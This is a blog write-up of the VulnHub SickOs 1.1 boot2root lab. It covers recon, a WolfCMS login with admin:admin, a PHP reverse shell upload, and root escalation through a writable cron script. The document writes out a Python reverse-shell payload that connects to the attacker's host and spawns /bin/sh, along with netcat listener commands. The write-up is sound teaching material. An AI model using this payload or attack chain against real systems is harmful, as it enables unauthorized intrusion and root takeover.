 ```yaml
---
title:      "SickOs1.1 WriteUp"
date:       2016-10-29 18:00:00
tags: [pentesting,writeup,vulnhub,sickos]
---
```

Today we will be solving a boot2root virtual machine from [vulnhub](http://www.vulnhub.com) that promises to be very interesting.

According to its creator, it is an entry-level machine, similar to the ones we could face on the OSCP labs, so if anyone is interested in tackling this certification, this could be an interesting starting point.

## Reconnaissance
Once booted the virtual machine (loaded on VMWare Player, NAT network configuration), we start by locating the machine with __*netdiscover*__ from the attacking machine in the same virtual network (A Kali distro in my case).

{% include image.html
            img="images/sickos1/sickos1.1-1.png"
            title="Execution of the netdiscover tool"
            caption="IPs .1, .2 and .254 are the ones used by VMWare for NAT administration, so the address of our victim is 172.16.159.129" %}

## Scanning
Our inseparable friend *__nmap__* could not miss the party. Initially, we launch a complete scan on every TCP port to see what services may be running.

{% include image.html
            img="images/sickos1/sickos1.1-2.png"
            title="nmap scan"
            caption="Preliminary scan with nmap" %}

We have __an SSH server open and a SQUID server__. The SSH server does not seem to be a vulnerable version, so SQUID will be our main attack vector for now.

### Fiddling with the proxy
Inspecting the SQUID server via browser we find out that it is working as an access filter.

{% include image.html
            img="images/sickos1/sickos1.1-3.png"
            title="SQUID error message"
            caption="While accessing the webpage, SQUID blocks our access, suggesting us how we could ask for redirectioning" %}

Editing the browser settings enables us to access through the proxy server offered by SQUID.

{% include image.html
            img="images/sickos1/sickos1.1-4.png"
            title="Browser proxy settings"
            caption="From now on, all our browser traffic will go trough the proxy, so it will be possible to access new resources" %}

Once the proxy is configured, it is logical to start trying with well-known ports in order to determine whether there is any web server running.

### Web scanning
We find an apparently simple web page on TCP port 80.

{% include image.html
            img="images/sickos1/sickos1.1-5.png"
            title="Web server on port 80"
            caption="HTML page without much more to offer" %}

Now that we know that there is a server running, it is worth trying *__nikto__* on it.

{% include image.html
            img="images/sickos1/sickos1.1-6.png"
            title="First half of nikto scan"
            caption="First half of nikto scan, the proxy is used for redirecting the scan" %}


{% include image.html
            img="images/sickos1/sickos1.1-7.png"
            title="Second half of nikto scan"
            caption="Second half of nikto scan" %}

Among all the interesting information found, we could make two important points:
* There exists a __robots.txt__ file, which kindly requests to search engine spiders not to index some pages inside a website, so it could contain something interesting.
* Some CGI are vulnerable to __shellshock__.

Willing to continue on the scanning stage, I decided to investigate the __robots.txt__ file, having __shellshock__ as ace on my sleeve just in case.

The __robots.txt__ file contains the following:  
    User-agent: *  
    Disallow: /  
    Disallow: /wolfcms

### WolfCMS
The */wolfcms* route seems promising, let's take a look.

{% include image.html
            img="images/sickos1/sickos1.1-8.png"
            title="WolfCMS initial page"
            caption="WolfCMS initial page" %}

A content management system is always something interesting, as it could enable us to upload interesting files to the server. After digging a bit inside the official documentation, we discover the administrator login page.

{% include image.html
            img="images/sickos1/sickos1.1-9.png"
            title="WolfCMS admin login"
            caption="WolfCMS admistrator login page" %}

## Intrusion

### Web service
After various user and password combination random tests, we are lucky with __admin:admin__. It is certainly not the most impressive way of breaking into a system, but human mistakes as easy credentials are always dangerous risks that play in favour of an attacker.

### Limited shell
We find an administration interface that allows to upload files to the */public* directory. As we already knew, what we have is an __Apache__ server on our hands (thanks *__nikto__*) so we will try with a __[PHP script](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) for a reverse TCP connection__.


{% include image.html
            img="images/sickos1/sickos1.1-10.png"
            title="WolfCMS administrator interface"
            caption="WolfCMS administrator interface" %}

The next thing to do is opening a listening port with *__netcat__* in order to receive the connection request from our victim.

{% include image.html
            img="images/sickos1/sickos1.1-11.png"
            title="nc -v -n -l -p 9999"
            caption="Open listening port on attacking machine" %}

After modifying the script in order to point at our IP and TCP port, __we upload it and invoke the script from *http://172.16.159.129/wolfcms/public/php-reverse-shell.php*__ on the browser, and we will obtain a limited shell.

{% include image.html
            img="images/sickos1/sickos1.1-12.png"
            title="Receiving the reverse TCP shell"
            caption="Access to system with user __www-data__" %}

### Privilege Escalation
Once inside the server, we start snooping the directory tree until we find what will be the key to root.

{% include image.html
            img="images/sickos1/sickos1.1-13.png"
            title="ls /etc/cron.d; cat /etc/cron.d/automate"
            caption="Script executed by root every minute" %}

It appears that we have writing permission on a python script executed by user __root__ every minute through *crontab*. From here on, there are many ways of proceeding, but I chose to keep with the reverse shell technique.

Adapting __[this one-line command](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)__, we substitute the python file for the next script:

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.159.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p.subprocess.call(["/bin/sh","-i"])
```
With the script ready, we only have to wait until it is executed and obtain a root shell.

{% include image.html
            img="images/sickos1/sickos1.1-14.png"
            title="-v -n -l -p 1234"
            caption="Obtaining root shell" %}

## Flag
Finally, we obtain the flag from the */root* directory.

{% include image.html
            img="images/sickos1/sickos1.1-15.png"
            title="Flag."
            caption="CTF flag" %}

## Conclusions
It is obviously not the hardest machine you can find out there, yet it is very complete and close to reality. All pentesting steps must be covered (skipping *footprinting*, naturally) and, as it is common, there is not only one way of clearing the obstacles to our goal. In my opinion, a funny machine, useful for dusting off old habits and skills.



<iframe width="420" height="315" src="http://www.youtube.com/embed/fJwWUiVJhLU?color=white&theme=light"></iframe>

